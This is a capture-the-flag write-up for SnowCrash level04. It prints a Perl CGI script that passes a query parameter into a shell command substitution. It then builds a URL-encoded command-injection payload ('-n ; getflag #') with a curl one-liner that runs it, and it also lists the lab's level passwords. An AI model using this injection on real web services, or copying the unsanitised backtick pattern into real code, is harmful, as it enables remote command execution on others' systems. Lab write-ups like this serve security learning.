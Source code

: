 # LEVEL 04

> [!TIP]
> user: `level04` <br>
> pass: `qi0maab88jeaj46qoumi7maus`

## STEP 01

In the home folder of the **level04**, the is a **[level04.pl](https://github.com/Pixailz/SnowCrash/blob/main/level04/resources/level04.pl)**
script that have SUID bit set, and belong to the **flag04**

Retrieve it simply by doing
```bash
cat level04.pl
##!/usr/bin/perl
## localhost:4747
#use CGI qw{param};
#print "Content-type: text/html\n\n";
#sub x {
#  $y = $_[0];
#  print `echo $y 2>&1`;
#}
#x(param("x"));
```

> [!NOTE]
> The security issue could be that the `print` function take a command
> substitution as argument, that itself take an input that the user control via
> the query parameter **x**

> [!TIP]
> Checking that a server is listening on the port mentionned in the script,
> could be done with a `ss -l | grep 4747`

## STEP 02

So, with `echo $y 2>&1` as command substitution, we can craft a payload, using
CyberChef, to make the server execute the `getflag` command

```
Unencoded payload:

'-n ; getflag #'
 ┬─ ┬ ┬────── ┬
 │  │ │       └ 4. the comment to make all the end disappear
 │  │ └──────── 3. the injected command
 │  └────────── 2. separator to chain the command
 └───────────── 1. is the flag to prevent echo from outputing a newline, this it
                   completly disable the echo command. optional
```

> encoded payload (with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=LW4gOyBnZXRmbGFnICM))
**%2Dn%20%3B%20getflag%20%23**

> [!TIP]
> to get the flag, you could simply do
> `curl http://TARGET_IP:4747/?x=%2Dn%20%3B%20getflag%20%23`

> [!IMPORTANT]
> the password for the next level is `ne2searoevaevoem4ov4ar8ap`
